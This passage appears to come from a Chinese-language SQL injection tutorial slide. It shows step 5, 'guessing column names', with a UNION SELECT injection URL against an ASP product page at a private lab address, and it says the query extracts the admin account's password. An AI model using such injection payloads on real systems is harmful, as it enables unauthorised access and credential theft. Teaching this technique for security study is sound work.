

5、猜解列名
http://10.10.10.130/0/Production/PRODUCT_DETAIL.asp?id=1138 UNION SELECT 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin
得到admin（管理员）的password(密码)